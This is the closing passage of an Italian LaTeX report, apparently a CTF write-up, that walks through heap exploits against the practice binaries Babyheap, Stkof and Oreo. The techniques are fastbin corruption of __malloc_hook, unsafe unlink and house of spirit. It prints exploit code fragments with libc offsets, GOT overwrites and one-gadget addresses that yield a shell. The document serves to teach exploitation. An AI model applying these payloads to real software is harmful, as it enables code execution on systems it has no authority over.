Tuttavia la \verb+malloc+ controlla se la dimensione del chunk è pari a quella del fastbin in cui si trova, ma in questo caso la dimensione, \verb+0x7ff0cd786580+ è di gran lunga superiore a quella di qualsiasi fastbin. La \verb+malloc+ non richiede alcun allineamento degli indirizzi, per cui è possibile iniettare un indirizzo con un certo offset rispetto a quello visto e \emph{forzare} la dimensione a 0x7f.

\begin{Verbatim}[commandchars=\\\{\}]
    \textcolor{red}{pwndbg>} x/10gx (long)&main_arena - 0x40+0xd
    \textcolor{blue}{0x7ff0cd8a0acd} <\textcolor{orange}{_IO_wide_data_0}+301>:   0xf0cd8a1e00000000      0x000000000000007f
    \textcolor{blue}{0x7ff0cd8a0add}:                         0xf0cd7865d0000000      0xf0cd78658000007f
    \textcolor{blue}{0x7ff0cd8a0aed} <\textcolor{orange}{__realloc_hook}+5>:      0x000000000000007f      0x0000000000000000
    \textcolor{blue}{0x7ff0cd8a0afd}:                         0x0000000000000000      0x0000000000000000
    \textcolor{blue}{0x7ff0cd8a0b0d} <\textcolor{orange}{main_arena}+13>:         0x0000000000000000      0x0000000000000000
\end{Verbatim}

L'indirizzo \verb+0x7ff0cd8a0acd+ è proprio ciò che cercavamo. Iniettando questo indirizzo è possibile far credere alla \verb+malloc+ che la dimensione del chunk è 0x7f, che corrisponde
ad un chunk di dimensione 0x70 in un fastbin.
Per cui si effettua lo stesso attacco di prima:

\begin{verbatim}
    allocate(0x68)
    allocate(0x68)

    free(7)

    payload =  p64(0) * 17
    payload += p64(0x71)
    payload += p64(libc_base + 0x19bacd)
    fill(6, payload)
\end{verbatim}

Si allocano due chunk, se ne libera uno e si fa un overflow sul \verb+FD+ del settimo chunk.

\begin{verbatim}
    allocate(0x68)
    allocate(0x68)  # pos 8
\end{verbatim}

Con due richieste ad \verb+allocate+ di dimensione del fastbin con chunk di grandezza 0x70, si ottiene in posizione 8 dell'array un chunk all'indirizzo \verb+0x7ff0cd8a0acd+.
E' possibile ora controllare il puntatore \verb+__malloc_hook+.

Per ottenere una shell, avendo l'indirizzo base della libc, è stato utilizzato un tool in python, \verb+magic.py+\cite{magicpy}, che utilizza le API di \verb+radare2+, per cercare il \emph{magic gadget}, un indirizzo nella libc che esegue \verb+exec("/bin/sh")+. Nel caso della libc considerata, questo si trova ad un offset \verb+0x45682+ rispetto il base address della libc.

\begin{verbatim}
    payload =  p8(0) * 19
    payload += p64(libc_base + 0x45682)     # magic gadget
    fill(8, payload)
\end{verbatim}

Si fa un \verb+fill+ dell'ottavo chunk, sovrascrivendo \verb+__malloc_hook+, ed eseguendo

\begin{verbatim}
    allocate(1)
\end{verbatim}

si invoca la funzione puntata da \verb+__malloc_hook+, ottendendo in questo modo una shell.

\subsection{Stkof}\label{cap:stkof}
\emph{Stkof} è un eseguibile che offre le seguenti operazioni, su un array \verb+G+ di \verb+0x100000+ puntatori, contenuto nella sezione \verb+.bss+:
\begin{enumerate}
	\item \emph{alloc(n)}: alloca un array di \verb+n+ byte e lo inserisce nella prossima posizione libera di \verb+G+ a partire da 1 (questa viene incrementata di volta in volta, senza mai essere decrementata)
	\item \emph{read(index, size, data)}: inserisce in posizione \verb+index+ di \verb+G+ una stringa \verb+data+ di lunghezza \verb+size+ da stdin. Questa è la funzione presenta una vulnerabilità. E' infatti possibile effettuare un overflow
	\item \emph{dealloc(index)}: libera la posizione \verb+index+ di \verb+G+
\end{enumerate}

Eseguando un checksec sull'eseguibile, si può vedere che il binario è compilato a 64 bit, che non ha PIE abilitato e che è Partial RELRO, per cui è possibile sovrascrivere la tabella \verb+.got+:

\begin{Verbatim}[commandchars=\\\{\}]
    Arch:     amd64-64-little
    RELRO:    \textcolor{red}{Partial RELRO}
    Stack:    \textcolor{green}{Canary found}
    NX:       \textcolor{green}{NX enabled}
    PIE:      \textcolor{red}{No PIE (0x400000)}
\end{Verbatim}

L'exploit si basa sull'attacco denominato \emph{unsafe unlink}, secondo cui si fa credere alla \verb+free + l'esistenza di un chunk non esistente, perchè non ottenuto da una chiamata a \verb+malloc+, che consente alla fine di avere un \emph{arbitrary write} su un indirizzo a propria scelta.

\begin{lstlisting}[style=PyStyle]
alloc(0x80)


alloc(0x80)
alloc(0x80)

ptr_addr = 0x602150
sizeof_ptr = 8

payload =  p64(0)*2
payload += p64(ptr_addr - sizeof_ptr*3)      # FD
payload += p64(ptr_addr - sizeof_ptr*2)      # BK
payload += p64(0)*12
payload += p64(0x80)                         # fake prev_size
payload += p64(0x90)                         # chunk size (bit prev in use = 0)

read(2, payload)
dealloc(3)
\end{lstlisting}

Si inizia allocando due buffer, \verb+buf1+ e \verb+buf2+, di dimensione 0x80, in modo da superare la dimensione del più grande fastbin, occupando quindi le posizioni 2 e 3 di \verb+G+\footnote{la prima \verb+alloc+ 
poteva essere evitata, ma serve solo per facilitare alcuni conti}.

Dopo aver allocato i due buffer, si crea un chunk fake all'interno di \verb+buf1+ scrivendo in posizione 2 e 3\footnote{considerato un buffer di puntatori, quindi di 8 byte in architettura a 64 bit} rispettivamente \verb+ptr_addr - sizeof_ptr*3+ e \verb+ptr_addr - sizeof_ptr*2+, che corrispondono ai puntatori \verb+FD+ e \verb+BK+ in un chunk vuoto. \verb+ptr_addr+ è un puntatore a puntatore, che punta al puntatore di \verb+buf1+(corrisponde a \verb+&G[2]+).
Questi valori non sono casuali, ma servono per bypassare il secondo controllo dell'\verb+unlink+ nella \verb+free+:

\begin{lstlisting}[style=CStyle]
#define unlink(AV, P, BK, FD) {                                            
    if (__builtin_expect (chunksize(P) != prev_size (next_chunk(P)), 0))
      malloc_printerr ("corrupted size vs. prev_size");			      
    FD = P->fd;
    BK = P->bk;
    if (__builtin_expect (FD->bk != P || BK->fd != P, 0))
      malloc_printerr ("corrupted double-linked list");
    else {
        FD->bk = BK;
        BK->fd = FD;		//[X]
      	
      	/* other code */
    }
}
\end{lstlisting}

Questo frammento di codice estrae un chunk libero da un bin.
Il controllo che in questo caso verrà superato è \verb+P->fd->bk == P+ e \verb+P->bk->fd == P+.

Essendo inoltre i chunk di \verb+buf1+ e \verb+buf2+ contigui in memoria ed essendo possibile un overflow su \verb+buf1+, si modifica la \verb+prev_size+ del chunk di \verb+buf2+ a 0x80\footnote{il valore in questo caso sarebbe stato 0x90}, per far credere alla \verb+free+ che il chunk di \verb+buf1+ è in realtà più piccolo, e si setta il bit \verb+prev_in_use+ a 0, per far credere alla \verb+free+ che il chunk precedente è libero.

Viene quindi deallocato \verb+buf2+ e, poichè la sua dimensione non rientra in un fastbin, il chunk viene consolidato con il precedente\footnote{che è libero secondo i metadati letti dalla \verb+free+} e viene chiamato l'\verb+unlink+.
Questo porta, grazie all'operazione conterassegnata con \verb+[X]+ nell'\verb+unlink+, a sovrascrivere il puntatore a puntatore a \verb+buf1+ con l'\verb+FD+ iniettato in \verb+buf1+, che in questo caso è \verb+0x602138+.
Grazie a questo è possibile sovrascrivere, scrivendo su \verb+G[2]+, qualsiasi puntatore in \verb+G+.

\begin{lstlisting}[style=PyStyle]
payload =  p64(0)*2
payload += p64(e.got['puts'])
payload += p64(e.got['free'])
read(2, payload)
\end{lstlisting}

In questo caso viene modificato \verb+G[1]+ e \verb+G[2]+ rispettivamente con l'indirizzo della \verb+.got+ di \verb+puts+ e di \verb+free+.

\paragraph{Leak del base address della libc}
La seguente istruzione eseguita nell'exploit sovrascrive l'indirizzo di jump della \verb+free+ nella \verb+.got+, con l'indirizzo della \verb+.plt+ di \verb+puts+:

\begin{lstlisting}[style=PyStyle]
read(2, p64(e.plt['puts']+0x6))
\end{lstlisting}

In questo modo ora la \verb+free+ in realtà esegue una \verb+puts+.
Con la seguente invece, si esegue una \verb+free+ su \verb+G[1]+, e quindi in realtà una \verb+puts+ di \verb+G[1]+, ovvero dell'indirizzo proprio della \verb+puts+.

\begin{lstlisting}[style=PyStyle]
dealloc(1)
\end{lstlisting}

Con l'ultima istruzione si ottiene quindi l'indirizzo della libc, sottraendo l'offset \verb+0x6e570+ dall'indirizzo della \verb+puts+ nella libc.

\begin{lstlisting}[style=PyStyle]
libc_addr = u64((p.readline().rstrip().ljust(8, '\x00'))) - 0x6e570
\end{lstlisting}

\paragraph{Ottenimento della shell}
Avendo ora il base address della libc, con il tool \verb+magic.py+\cite{magicpy} si identifica l'offset del \emph{magic gadget} per ottenere una shell. Questo indirizzo viene sostituito nuovamente al posto della \verb+free + e nuovamente con un \verb+dealloc+, si va a richiamare la \verb+free+ nel codice, che corrisponde ora ad una \verb+exec("/bin/sh")+:

\begin{lstlisting}[style=PyStyle]
read(2, p64(libc_addr + 0x45682))             # magic gadget
dealloc(2)
\end{lstlisting}

\subsection{Oreo}
\emph{Oreo} consiste in un programma che offe un servizio per la vendita di fucili. Le operazioni disponibili sono:
\begin{enumerate}
	\item \emph{Add new rifle}: dato un nome ed una descrizione, aggiunge in una lista, \verb+rifles+, il fucile da comprare. La vulnerabilità è presente proprio in questa operazione, poichè nella \verb+struct rifle_t+, vedi Listing~\ref{code:structrifle}, quando si inserisce o la descrizione o il nome si può fare un overflow sul campo \verb+next+
	\item \emph{Show added rifles}: mostra i fucili aggiunti in lista
	\item \emph{Order selected rifles}: ordina i fucili, facendo una \verb+free+ dei nodi della lista
	\item \emph{Leave a Message with your Order}: lascia un messaggio, scrivendo in un buffer contenuto in \verb+.bss+
	\item \emph{Show current stats}: mostra il numero di fucili comprati e, se presente, il messaggio lasciato con la precedente operazione.
\end{enumerate}

\begin{lstlisting}[style=CStyle, label={code:structrifle}, caption={struct rifle\_t contenuta in \emph{oreo}}]
struct rifle_t {
	char description[25];
	char name[27];
	struct rifle_t* next;
};
\end{lstlisting}

Un \verb+checksec+ sul binario, mostra che il file è compilato a 32 bit e che essendo non RELRO, è possibile scrivere nella \verb+.got+ e ha anche PIE disabilitato.

\begin{Verbatim}[commandchars=\\\{\}]
    Arch:     i386-32-little
    RELRO:    \textcolor{red}{No RELRO}
    Stack:    \textcolor{green}{Canary found}
    NX:       \textcolor{green}{NX enabled}
    PIE:      \textcolor{red}{No PIE (0x8048000)}
\end{Verbatim}

Ciò che è importante sapere ai fini dell'exploit è che tutte le strutture dati sono contenute nel segmento \verb+.bss+. In particolare esiste un puntatore ad un buffer di caratteri, denominato \verb+msg_ptr+, e il buffer puntato, denominato \verb+buf_msg+ di dimensione 0x80. \verb+msg_ptr+ è inizializzato nel \verb+main+ per puntare all'indirizzo di \verb+buf_msg+.
Inoltre ogni volta che viene aggiunto un nuovo fucile con l'operazione 1, viene allocato spazio in heap con una \verb+malloc+ e viene aggiunto in testa alla lista \verb+rifles+, prima che venga chiesto nome e descrizione.
Esiste infine un contatore, denominato \verb+cont+, che contiene il numero di fucili da ordinare, incrementato ogni volta che si esegue l'operazione 1, ma mai decrementato.

L'attacco utilizzato nell'exploit è denominato \emph{house of spirit}, in cui è possibile forzare la \verb+malloc + ad allocare uno spazio in memoria in un indirizzo arbitrario.
In questo caso è stato scelto come indirizzo una entry della tabella \verb+.got+, in modo da sovrascrivere il riferimento ad una funzione presente nella tabella stessa.

In memoria, nel segmento \verb+.bss+, il contatore \verb+cont+ precede \verb+msg_ptr+, dopo di che seguono 20 byte inutilizzato, per poi esserci il buffer \verb+buf_msg+, secondo la Figura %INSERIRE FIGURA.
Bisogna tener presente che per far credere alla \verb+free+ che l'attuale chunk da liberare è effettivamente un chuck e che questo deve andare in un fastbin, il campo \verb+size+ deve contenere una dimensione corretta, senza badare al bit \verb+prev_in_use+, che nella gestione di un fast bin non viene considerato.
Inoltre, poichè la \verb+malloc+ viene chiamata solo nell'operazione 1 e questa alloca uno spazio in memoria di 0x38 byte, serve un chunk di dimensione 0x40.
Il target scelto per la \verb+malloc+ è l'indirizzo di \verb+msg_ptr+, in modo tale da modificare il puntatore ad un buffer arbitrario, che è possibile poi sovrascrivere con l'operazione 4.

Quindi il campo \verb+size+ del chunk dato alla \verb+free+\footnote{ovvero i 4 byte precedenti al puntatore dato} deve contenere 0x40. Questo corrisponde in memoria alla variabile \verb+cont+, che è possibile incrementare solamente con l'operazione 1.

\begin{verbatim}
    msg_ptr_addr = 0x0804a2a8

    for i in range(0x40-1):
        add_rifle("a", "a")

    payload = p8(0x61) * 27
    payload += p32(msg_ptr_addr)

    add_rifle(payload, "description")

\end{verbatim}

Vengono inizialmente inserite in lista 0x40-1 fucili, per poi aggiungere un fucile, che tramite l'inserimento del nome\footnote{un campo di 27 byte}, sovrascrive il campo \verb+next+ con l'indirizzo di \verb+msg_ptr+.

Poichè la free controlla che il chunk successivo abbia una \verb+size+ maggiore di 16 e minore di 128k, dopo 36 byte in \verb+msg_buf+ viene scritto il valore 0x1234, che rientra nella size corretta:

\begin{verbatim}
    payload = p8(0) * 36
    payload += p32(0x1234)

    leave_notice(payload)
\end{verbatim}

Per fare in modo che il chunk iniettato sia il primo del fastbin, l'attraversamento della lista \verb+rifles+ deve terminare al chunk iniettato. Ecco il perchè del riempimento di \verb+msg_buffer+ con byte posti a 0.

La seguente istruzione farà finire \verb+msg_ptr_addr - 0x8+ nel fastbin\footnote{0x8 perchè il campo \verb+size+ e \verb+prev_size+ a 32 bit sono di 4 byte}.
Da notare inoltre l'allineamento del chunk a 16 byte, fornito alla free\footnote{si ricorda che il chunk address si ottiene dall'indirizzo fornito alla \verb+free+, a cui si sottrae l'header del chunk, in questo caso 8 byte}:

\begin{verbatim}
    order()
\end{verbatim}

\paragraph{Leak della libc e ottenimento della shell}
Si sovrascrive quindi \verb+msg_ptr+ con l'indirizzo della \verb+.got+ di \verb+strlen+:

\begin{verbatim}
    add_rifle("name", p32(e.got['strlen']))     # overwrite notice_ptr with strlen got address

    stats()

    p.recvuntil("Order Message: ")
    libc_addr = u32(p.recvline()[:4]) - 0x7e440
\end{verbatim}

Con \verb+stats+, che corrisponde all'operazione 5, si stampa il contenuto del "\verb+msg_buf+", in questo caso il contenuto della \verb+.got+ di \verb+strlen+. Si ha quindi un leak della libc, ottenuto togliendo l'offset 0x7e440 all'indirizzo nella libc di \verb+strlen+.

Con il tool \verb+magic.py+\cite{magicpy}, si trova il \emph{magic gadget} che consente di eseguire \verb+exec("/bin/sh")+ con un solo gadget, per cui si sovrascrive il nuovo "\verb+msg_buf+" che corrisponde all'indirizzo della \verb+.got+ di \verb+strlen+ con il magic gadget:

\begin{verbatim}
    leave_notice(p32(libc_addr + 0x5fbc5))      # magic gadget
\end{verbatim}

Poichè l'operazione \verb+leave_notice+, operazione 4, dopo aver letto il messaggio da stdin determina la lunghezza della stringa inserita con \verb+strlen+, viene eseguito il gadget iniettato.
Si ottiene in questo modo una shell.

\section{Exploit integrali}\label{cap:exploit}

\subsection{Babyheap}

\subsection{Stkof}

\subsection{Oreo}

% bibliografia
\nocite{*}
\printbibliography


\end{document}

